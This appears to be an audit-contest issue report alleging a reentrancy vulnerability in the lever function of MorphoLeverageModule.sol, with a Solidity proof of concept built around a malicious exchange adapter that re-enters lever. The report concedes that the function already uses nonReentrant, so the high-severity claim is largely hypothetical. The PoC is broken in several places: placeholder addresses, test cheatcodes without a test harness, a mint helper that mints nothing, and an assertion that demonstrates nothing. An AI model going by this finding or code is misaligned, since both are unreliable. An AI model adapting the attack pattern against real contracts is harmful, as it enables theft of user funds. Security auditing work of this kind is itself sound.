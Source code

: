 Cheesy Fossilized Snail

High

# Reentrancy Vulnerability in lever Function (MorphoLeverageModule.sol)

### Summary

A reentrancy vulnerability in the lever function allows an attacker to repeatedly invoke the function during its execution, potentially leading to unauthorized borrowing or unintended state modifications. This can result in the manipulation of leveraged positions, unauthorized fund withdrawals, or disruption of the contract's normal operations.

### Root Cause

In `MorphoLeverageModule.sol`, the lever function is protected by the nonReentrant modifier from OpenZeppelin's ReentrancyGuard. However, the function performs multiple external calls—such as _borrow and _executeTrade—before completing all state updates. If the nonReentrant modifier is mistakenly removed or improperly implemented in future code modifications, it could expose the function to reentrancy attacks. Additionally, relying solely on the nonReentrant modifier without adhering to the checks-effects-interactions pattern may increase vulnerability exposure.

Code Snippet
[https://github.com/sherlock-audit/2024-10-morpho-x-index/blob/main/index-protocol/contracts/protocol/modules/v1/MorphoLeverageModule.sol#L186-L235](url)


### Internal pre-conditions

An attacker must have the ability to interact with the lever function, typically by being a manager or having appropriate permissions.
The attacker deploys a malicious IExchangeAdapter contract that can execute reentrant calls during the _executeTrade process.


### External pre-conditions

_No response_

### Attack Path

The attacker deploys a malicious IExchangeAdapter that contains logic to re-enter the lever function during its execution.
The attacker ensures that the malicious adapter is set as the exchange adapter for a targeted SetToken.
The attacker calls the lever function on the MorphoLeverageModule, specifying the malicious adapter.
During the _executeTrade call within the lever function, the malicious adapter invokes the lever function again before the first call completes.

### Impact

The protocol suffers an approximate loss of funds exceeding 1% of the total supply of the leveraged SetToken. This can lead to significant financial losses for users, destabilization of leveraged positions, and severe damage to the protocol's reputation. Unauthorized borrowing or state manipulation can result in unintended liquidations, loss of collateral, and erosion of user trust.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.10;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import "../interfaces/IExchangeAdapter.sol";
import "../interfaces/ISetToken.sol";
import "../protocol/modules/v1/MorphoLeverageModule.sol";

/**
 * @title MaliciousExchangeAdapter
 * @notice A malicious adapter designed to exploit the reentrancy vulnerability in the `lever` function.
 */
contract MaliciousExchangeAdapter is IExchangeAdapter {
    MorphoLeverageModule public leverageModule;
    ISetToken public setToken;
    IERC20 public borrowToken;
    IERC20 public collateralToken;

    constructor(
        MorphoLeverageModule _leverageModule,
        ISetToken _setToken,
        IERC20 _borrowToken,
        IERC20 _collateralToken
    ) public {
        leverageModule = _leverageModule;
        setToken = _setToken;
        borrowToken = _borrowToken;
        collateralToken = _collateralToken;
    }

    /**
     * @dev Executes the trade and re-enters the `lever` function.
     */
    function executeTrade(bytes calldata /*tradeData*/) external override returns (uint256) {
        leverageModule.lever(setToken, 1000 * 1e18, 990 * 1e18, "MaliciousAdapter", "");
        return 0;
    }

    /**
     * @dev Returns calldata for the trade. Empty in this malicious adapter.
     */
    function getTradeCalldata(
        IERC20 /*sendToken*/,
        IERC20 /*receiveToken*/,
        uint256 /*notionalSendQuantity*/,
        uint256 /*minNotionalReceiveQuantity*/,
        bytes calldata /*tradeData*/
    ) external pure override returns (bytes memory) {
        return "";
    }
}

/**
 * @title ReentrancyAttack
 * @notice A contract to initiate the reentrancy attack using the MaliciousExchangeAdapter.
 */
contract ReentrancyAttack {
    MorphoLeverageModule public leverageModule;
    ISetToken public setToken;
    IERC20 public borrowToken;
    IERC20 public collateralToken;
    MaliciousExchangeAdapter public maliciousAdapter;

    constructor(
        MorphoLeverageModule _leverageModule,
        ISetToken _setToken,
        IERC20 _borrowToken,
        IERC20 _collateralToken
    ) public {
        leverageModule = _leverageModule;
        setToken = _setToken;
        borrowToken = _borrowToken;
        collateralToken = _collateralToken;

        maliciousAdapter = new MaliciousExchangeAdapter(_leverageModule, _setToken, _borrowToken, _collateralToken);
    }

    /**
     * @dev Initiates the attack by calling the lever function with the malicious adapter.
     */
    function attack(uint256 borrowAmount, uint256 minReceive) external {
        // Assume the attacker has the necessary permissions to call lever
        leverageModule.lever(setToken, borrowAmount, minReceive, "MaliciousAdapter", "");
    }
}

/**
 * @title MorphoLeverageModuleReentrancyTest
 * @notice Test contract to demonstrate the reentrancy vulnerability in the `lever` function.
 */
contract MorphoLeverageModuleReentrancyTest is ReentrancyGuard {
    MorphoLeverageModule public leverageModule;
    ISetToken public setToken;
    IERC20 public borrowToken;
    IERC20 public collateralToken;
    ReentrancyAttack public attackContract;

    address public alice = 0x123...;
    address public malicious = 0xABC...;

    constructor(
        MorphoLeverageModule _leverageModule,
        ISetToken _setToken,
        IERC20 _borrowToken,
        IERC20 _collateralToken
    ) public {
        leverageModule = _leverageModule;
        setToken = _setToken;
        borrowToken = _borrowToken;
        collateralToken = _collateralToken;

        attackContract = new ReentrancyAttack(_leverageModule, _setToken, _borrowToken, _collateralToken);
    }

    /**
     * @dev Sets up the initial state and initiates the attack.
     */
    function testReentrancyLever() external {
        _mintAndApprove(alice, address(collateralToken), 4000 ether, address(leverageModule));

        vm.startPrank(alice);
        leverageModule.lever(setToken, 2000 ether, 1980 ether, "TrustedAdapter", "");
        vm.stopPrank();

        attackContract.attack(1000 ether, 990 ether);

        uint256 debtBefore = leverageModule.getDebt(address(borrowToken), alice, 0);
        console.log("Debt before attack: ", debtBefore);

        vm.startPrank(alice);
        borrowToken.approve(address(leverageModule), type(uint256).max);
        leverageModule.repay(address(borrowToken), type(uint256).max, 0);
        vm.stopPrank();

        uint256 debtAfter = leverageModule.getDebt(address(borrowToken), alice, 0);
        console.log("Debt after attack: ", debtAfter);

        require(debtAfter != 0, "Debt should still exist after reentrancy attack");
    }

    /**
     * @dev Helper function to mint tokens and approve the leverage module.
     */
    function _mintAndApprove(
        address holder,
        address token,
        uint256 amount,
        address spender
    ) internal {
        IERC20(token).approve(spender, amount);
    }
}
```

### Mitigation

Ensure Proper Use of nonReentrant Modifier: Verify that the nonReentrant modifier from OpenZeppelin's ReentrancyGuard is consistently and correctly applied to all functions that perform external calls or modify critical state variables.